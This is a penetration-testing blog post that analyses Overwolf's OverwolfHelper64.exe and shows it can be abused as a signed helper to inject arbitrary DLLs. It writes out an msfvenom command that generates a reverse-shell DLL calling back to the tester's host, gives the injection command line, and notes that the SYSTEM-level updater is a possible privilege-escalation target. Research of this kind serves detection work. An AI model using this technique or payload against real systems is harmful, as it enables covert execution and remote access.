```yaml
---

layout: post

title: OverWolfHelperx64 - DLL Injection LOLBAS

gh-badge:

- star

- fork

- follow

tags:

- Windows

- Cyber Security

- Penetration Testing

comments: true

published: true

date: '2022-01-18'

---
```


Hello guys gals and non binary pals, today we're going to be looking at a program called OverWolf. Overwolf is a piece of software backed by Curse Forge, Intel, Logitech, Twitch, Ubisoft and a bunch of other companies that is designed to add extensions (or Mods) onto games. Some examples might include an overlay that shows your health or ammo count in a different style. But yeah -- you get the gist of it. It's a pretty interesting piece of software to analyze.

We're going to be using a pretty standard setup of [ProcMon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from SysInternals and [ProcessHacker](https://processhacker.sourceforge.io/downloads.php).

Overwolf can be downloaded from the following URL:
(https://www.overwolf.com/apps/)[https://www.overwolf.com/apps/]

It's a pretty standard install, so I'm not going to into too much detail on the install process. Just keep clicking "Next" until you see OverWolf finish installing.

### Overwolf Analysis

First we're going to open up ProcMon, and add a Process Filter -- we will be filtering on the Command Line and ensure it contains the string Overwolf. This will likely give us the best results.

![[https://blog.spookysec.net/img/Pasted image 20210918140933.png]](https://blog.spookysec.net/img/Pasted image 20210918140933.png)

Afterwards, click "Add" and "Apply". Next up, pop on open Process Hacker and use the "Search" function to specify Overwolf. I've split my screens for ease of use:

![[https://blog.spookysec.net/img/Pasted image 20210918141142.png]](https://blog.spookysec.net/img/Pasted image 20210918141142.png)

Next, we're going to launch Overwolf and see what happens.

If setup correctly, we should see a lot of new processes spawn in Process Hacker and ProcMon should see a whole bunch of new WindowsAPI functions get called as well as Programs get launched.

![[https://blog.spookysec.net/img/Pasted image 20210918141331.png]](https://blog.spookysec.net/img/Pasted image 20210918141331.png)

The Process Hacker window was fairly standard -- there was one important thing to note, the Updater spawned as NT AUTHORITY\SYSTEM. This is a very important thing to note if you're developing a Local Privilege Escalation exploit. If you capture the traffic with Wireshark and can decipher the upgrade protocol, you might be able to develop a LPE exploit. I'm not going to dig through that rabbit hole today though :).

Here, we are primarily looking for DLLs or Programs that get loaded as part of launching OverWolf. Just browsing through the running processes, one in particular stood out to me, OverWolfHelper/OverWolfHelper64.exe, it queried information on a process name "Audiodg.exe", a native windows binary. I found this particular one in ProcMon, however, it's also possible to locate it over in Process Hacker.

![[https://blog.spookysec.net/img/Pasted image 20210918144412.png]](https://blog.spookysec.net/img/Pasted image 20210918144412.png)
*Located in ProcMon*

![[https://blog.spookysec.net/img/Pasted image 20210918144523.png]](https://blog.spookysec.net/img/Pasted image 20210918144523.png)
*Located In Process Hacker*

Interestingly enough it appears like OverwolfHelper takes two arguments -- path and pid. These (to me) are some pretrty interesting arguments to take, especially when the path is pointing to a DLL.

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Program Files (x86)\Overwolf\0.178.0.16\OWExplorerLauncher.dll pid=1596"
```

Doing some basic analysis on this, we can see that the PID actually points to the parent Overwolf process. Interestingly enough, it (OWExplorerLauncher.dll) doesn't appear to be loaded. However, in OverwolfHelper.exe it does.

![[https://blog.spookysec.net/img/Pasted image 20210918193328.png]](https://blog.spookysec.net/img/Pasted image 20210918193328.png)

### Injecting a DLL

Let's try injecting a DLL with OverWolfHelper and see how it goes. On Kali, we're going to generate a DLL using MSFVenom.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f dll -o injectme.dll
```

![[https://blog.spookysec.net/img/Pasted image 20210918202742.png]](https://blog.spookysec.net/img/Pasted image 20210918202742.png)

After transporting the binary over, we're going to run the modified command:

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Users\Administrator\Downloads\injectme.dll pid=1596"
```


![[https://blog.spookysec.net/img/Pasted image 20210918203111.png]](https://blog.spookysec.net/img/Pasted image 20210918203111.png)

And checking over in our Terminal, it appears we have gotten a shell!

![[https://blog.spookysec.net/img/Pasted image 20210918203200.png]](https://blog.spookysec.net/img/Pasted image 20210918203200.png)

To figure out what's going on behind the scenes, we can pivot back over to ProcessHacker and go over to the "Network" tab and filter for our IP Address (192.168.0.198). It appears that it indirectly calls rundll32.exe

![[https://blog.spookysec.net/img/Pasted image 20210918205736.png]](https://blog.spookysec.net/img/Pasted image 20210918205736.png)

It appears that rundll32.exe spawned a child process, cmd.exe which would likely be a fairly large indicator of malware. I've created a directory called "notmalware" in my Netcat session and CD'd into that folder

![[https://blog.spookysec.net/img/Pasted image 20210918210210.png]](https://blog.spookysec.net/img/Pasted image 20210918210210.png)

It appears that the child process is indeed our Reverse Shell.

![[https://blog.spookysec.net/img/Pasted image 20210918210157.png]](https://blog.spookysec.net/img/Pasted image 20210918210157.png)

### Conclusion

It appears that OverwolfHelper (when it loads a DLL) runs rundll32 -- interestingly, our DLL isn't mentioned as any argument.

![[https://blog.spookysec.net/img/Pasted image 20210918210655.png]](https://blog.spookysec.net/img/Pasted image 20210918210655.png)
